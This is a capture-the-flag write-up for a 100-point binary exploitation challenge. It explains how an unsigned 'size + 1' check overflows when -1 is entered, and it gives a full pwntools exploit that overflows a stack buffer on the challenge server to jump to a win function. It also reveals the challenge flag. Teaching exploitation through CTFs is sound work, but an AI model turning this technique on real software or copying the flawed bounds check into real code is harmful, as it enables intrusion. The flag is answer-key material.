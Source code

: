 ```yaml
---
title: "yet another bof pwn"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
points: 100
solves: 23
flags: flag: Meta4Sec{e6b760bc7b7f2e252a2c50692c5e4ce3}
---
```


> this is bof
>
> `nc 117.53.46.98 10000`

by `rui`

---

We were given a file `dist.zip` containing `chall` and `main.c`. Thanks to the problem setter for providing the source code, so we didn’t need to open IDA Pro. By reading the source code, we can identify a buffer overflow vulnerability.

Here is the relevant part of the source code:

```c
int main(){
    char buf[MAX];
    unsigned size;
    printf("size: ");
    scanf("%u", &size);
    if (size + 1 > MAX) {
        printf("no bof pls\n");
        exit(0);
    }
    printf("data: ");
    read(0, buf, size);
    buf[strcspn(buf, "\n")] = '\0';
    return 0;
}
```

The vulnerability lies in the `size + 1` check. When we input `-1` as the size, `size + 1` becomes `0` due to integer underflow. This bypasses the check, and the program proceeds to `read(0, buf, size);` where `size` is interpreted as the maximum value of an `unsigned int`.

This allows us to exploit the program by sending input longer than `MAX`, overwriting the return address of the `main` function, and redirecting execution to the `win` function.

Here is the full exploit:

```python
from pwn import *

BINARY = './dist/chall'

context.log_level = 'debug'
context.binary = BINARY

e = ELF(BINARY)
# r = process(BINARY)
r = remote('117.53.46.98',  10000)

r.sendlineafter(b'size: ', b'-1')
r.sendline(flat([
    cyclic(256),
    cyclic(8),
    e.sym['win']
]))

r.interactive()
```
